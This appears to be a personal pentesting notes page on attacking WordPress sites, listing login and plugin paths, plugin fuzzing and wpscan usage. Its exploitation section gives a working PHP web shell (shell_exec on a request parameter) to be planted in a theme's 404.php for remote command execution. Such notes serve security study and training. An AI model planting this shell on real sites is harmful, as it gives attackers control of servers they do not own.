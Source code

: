 ```yaml
---
layout: single
title: Wordpress
excerpt: "Posibles vectores de ataque al enfrentarse a un Wordpress, rutas relevantes y archivos de configuración post-explotación relevantes."
date: 2021-12-14
classes: wide
header:
  teaser: /assets/images/Concepts/CMS/Wordpress/Wordpress.png
  teaser_home_page: true
  icon: /assets/images/concept.png
categories:
  - Concepts
tags:
  - CMS
---
```



# Definición
**Wordpress** es un gestor de contenido web. Se complementa con el uso de extensiones llamadas "plugins" los cuales hay que actualizar porque pueden ser potenciales vectores de ataque. 

# Enumeración
## Rutas Comunes
-   **index.php**
    
-   **license.txt** contains useful information such as the version WordPress installed.
    
-   **wp-activate.php** is used for the email activation process when setting up a new WordPress site.
    
-   Login folders (may be renamed to hide it):
    
    -   **/wp-admin/login.php**
        
    -   **/wp-admin/wp-login.php**
        
    -   **/login.php**
        
    -   **/wp-login.php**

- **xmlrpc.php** is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism.

- **wp-content/uploads/** Is the directory where any files uploaded to the platform are stored.
- **wp-content/plugins/** Folders where plugins can be fuzzed.

## Manual
### Plugin Discovery
Fuzzear bajo la ruta wp-content/plugins/ con un diccionario de plugins. [Por ejemplo el mio :)](https://github.com/creep33/wp-plugins-dict)
## Automática
### wpscan
#### Definición
Esta herramienta nos permite encontrar diferentes caracteristicas de un **wordpress** como por ejemplo plugins

#### Uso
```bash
wpscan --url "http://10.10.10.10/"
```

# Explotación
Consiste en conseguir RCE en la páigna

## Themes 
Accedemos a Appearance > Themes > 404.php > Twenty Seventeen.

Editamos el script para que sea una web shell

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Podemos acceder al recurso mediante el parámetro p

> http\://website.web/?p=404.php

## Plugins
Si encontramos plugins, podemos buscar vulnerabilidades relacionadas en **searchploit** o internet. Para ver si podemos conseguir RCE.


---

Escrito el 14-12-2021 a las 07:19 pm por creep33.
